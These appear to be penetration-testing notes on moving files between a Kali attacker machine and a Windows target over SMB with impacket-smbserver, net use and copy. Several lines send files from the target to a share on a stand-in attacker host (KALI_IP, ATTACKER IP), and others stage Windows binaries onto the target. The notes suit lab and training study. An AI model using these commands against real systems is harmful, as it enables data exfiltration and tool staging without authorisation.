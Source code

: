 # SMB



```
# Kali side
impacket-smbserver share . -smb2support -username USER -password PASS
```

```
# Windows side
net use Y: \\KALI_IP\share /user:USER PASS
# After established connection
# Transfer from windows to Kali
copy FILE Y:\
# Transfer from kali to windows
copy Y:\File .\
```






Serve:
```
python /usr/share/doc/python-impacket/examples/smbserver.py share-name root-dir
```



On the target, you can view the available shares on the SMB server with net view `\\ip-addr`.
To view the files available in the share, simply use dir `\\ip-addr\share-name`


To actually download a file, use `copy \\ip-addr\share-name\file out-file`













You can launch an SMB share on your Kali machine with impacket
```
impacket-smbserver [SHARE NAME] [SHARE FOLDER] -smb2support -username User -password [PASS]

impacket-smbserver [SHARE NAME] /usr/share/windows-binaries/

impacket-smbserver [SHARE NAME] [SHARE FOLDER] -smb2support
```






#### Example 1
```
# start a share in kali
impacket-smbserver myShare . -smb2support -username stephanie -password 'P@ssword!'

# Then mount this share on the windows machine with:
net use X: \\[IP]\[SHARE NAME]
net use m: \\[IP]\[SHARE NAME] /user:[USERNAME] [PASSWORD]
net use m: \\Kali_IP\test /user:kourosh kourosh

# to delete share
net use X: /delete

```

After that it's really easy because you can just copy/paste things from the windiws target and have it on your Kali.




#### Example 2 (may not work)
```
impacket-smbserver share /home/[USERNAME]/Desktop -smb2support


# On target machine open File Explorer an in the searchbar put:
\\[ATTACKER IP]


```












### Windows to Kali

```powershell
kali> impacket-smbserver -smb2support <sharename> .
win> copy file \\KaliIP\sharename
```

